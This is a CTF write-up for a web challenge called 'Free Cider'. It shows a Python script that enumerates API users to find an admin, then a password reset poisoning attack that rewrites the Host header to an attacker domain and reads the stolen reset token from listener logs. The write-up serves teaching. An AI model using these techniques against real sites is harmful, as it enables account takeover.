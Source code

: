 # Free Cider
> Author : Mika - @bWlrYQ

## "Recon"

As soon as we arrive on the challenge page, we are greeted with a login form:

![login_form](img/1.png)

According to the website, registration is closed, so we can only log in. Inspecting the source code, we can spot at the end the following:

```html
<!-- 
                            Note for admins : 
For the sake of security, remove the bloody swagger UI from the production build.
-->
```

This means the web app relies on an API and that we are given the swagger associated to it. By trying various endpoints, we finally come to the `/swagger`: 

![swagger](img/2.png)

The API isn't very extensive which is a good point for us, less features to test ! We can focus on 2 interesting endpoints: `/api/v1/user/{user_id}` and `/api/v1/reset-password`

The first one allows us to list a user's id, status (admin or not) and his username which can be interesting to try the reset password feature. 

## User enumeration

Using the API documentation, we can write the following dirty script that will enumerate users:

```py
from requests import get

HOST = "http://example.lan"
i = 1
foundAdmin = False

while not foundAdmin:
    res = get(f"{HOST}/api/v1/user/{i}")
    if res.status_code == 200:
        if res.json()['admin']:
            print(res.json())
            foundAdmin = True
    i+=1
```

By running it, we get the following output: 

```json
{
    'admin': True, 
    'id': 9, 
    'username': 'danielle_fleming96'
}
```

## Password Reset Poisoning

So user `danielle_fleming96` is an admin, we need to manage to log into his account. We could have tried a bruteforce attack at first, but there is the "Reset Password" feature in the API and on the login page, which hints us on the fact that we should examinate that one closely. Reset password features aren't very common in CTF challenges.

![reset_password](img/3.png)

A flaw that can sometimes be found in reset password features is the fact that the server will rely on the `Host` HTTP header to generate the link sent to the user. Which means that if we intercept the request before sending it to the app and edit the `Host` header value with a domain (or ip address) that belongs to us, the victim will receive a link crafter with our domain. 

If this victim clicks on the maliciously crafted link, instead of ending on the original web application, it'll arrive on ours host. By looking to the logs, we'll see the token that's in the GET parameters and will be able to use it to reset the user's password.

Intercepting the password reset request in Burpsuite, we end up with:

```
POST /api/v1/reset-password HTTP/1.1
Host: example.lan
User-Agent: ^_^
Content-Type: application/json
Content-Length: 33
DNT: 1
Connection: close
Cookie: session=eyJub25jZSI6IjM1NjAxMzAwNTM1YjU4NTVlNjdmMTI1NWU0ZDgyZWNiIn0.Zb50Dw.xxe0xUSFSX6RUu5GjOZHA_sOE4I

{"username":"danielle_fleming96"}
```

By editing the `Host` value to `example.malicious` and sending it through the repeater, we get a success message which means everything went fine for the app on the server.

![burp_repeater](img/4.png)

Reviewing our HTTP listener's logs, we can see:

```
Serving HTTP on 0.0.0.0 port 3333 (http://0.0.0.0:3333/) ...
172.17.0.4 - - [03/Feb/2024 17:33:08] code 404, message File not found
172.17.0.4 - - [03/Feb/2024 17:33:08] "GET /reset?token=b4652807-07dd-4044-93ab-bb3b00606cfa HTTP/1.1" 404 -
```

This means the victim has clicked on the malicious link and that it has given us the reset token. Bingo! If we visit `http://example.lan/reset?token=b4652807-07dd-4044-93ab-bb3b00606cfa` we have the following result:

![pw_rst_successfull](img/5.png)

By logging into the app with the credentials we just received, we get access to the free Cider Panel :).

![admin_panel](img/6.png)

Clicking on the "GET FREE CIDER" button give ous our flag: `GCC{P@ssw0rd_RST_Poison1nG_R0ck$!}`.